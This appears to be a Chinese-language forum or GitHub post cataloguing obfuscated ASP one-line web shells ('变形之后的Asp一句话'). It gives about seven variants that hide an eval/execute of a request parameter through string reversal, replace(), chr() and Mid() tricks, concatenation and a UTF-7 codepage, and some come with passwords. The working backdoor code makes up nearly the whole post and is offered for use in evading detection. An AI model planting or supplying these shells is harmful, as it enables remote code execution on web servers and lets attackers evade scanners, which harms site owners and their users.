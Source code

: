 变形之后的Asp一句话：  

Author : RainShine

1.逆序法 

    <%execute(strreverse(")""xx""(tseuqer lave"))%>

2.拆分法(浑水摸鱼法)   

    <% 
    xx=request("xx") 
    eval xx 
    %> 

    <% 
    xx=request("xx") 
    Rain=xx 
    eval Rain 
    %>  

3.replace函数  

    <% 
    xxx="e0x0e0c0ut0e(0req0ue0st(""x0x""))" 
    xxx=replace(xxx,"0","") 
    eval xxx 
    %>


4. chr()连接字符串。例如
```<%eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("sz"))%>```


5.Mid()连接字符串。 
这个貌似没人研究过（或者说没人发过），我就发一下吧。基本思路：乱序一个字符串然后反复Mid取字符构成一句话。 

    <% 
    Function d(s):d=Mid(love,s,1):End Function:love="(tqxuesrav l)"&"""":execute(d(6)&d(10)&d(9)&d(12)&d(11)&d(8)&d(6)&d(3)&d(5)&d(6)&d(7)&d(2)&d(1)&d(14)&d(4)&d(4)&d(14)&d(13)) 
    %>


6.字符连接成字符串 
    
    <%eval("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0″&"-"&"2″&"-"&"5″&")"&")")%>   密码-7  


差不多也就想到这些，已经成为酱油党，无法在某些领域发帖了。  

本人抗击打能力不错，抗打击能力一般，各位手下留情~   

------------苦逼的RainShine

> 另外一个白帽子的~~  
    <%@codepage=65000%>
    <%e+x-v+x-a+x-l(+x-r+x-e+x-q+x-u+x-e+x-s+x-t+x-(+x-+ACI-c+ACI)+x-)+x-%>  密码是：c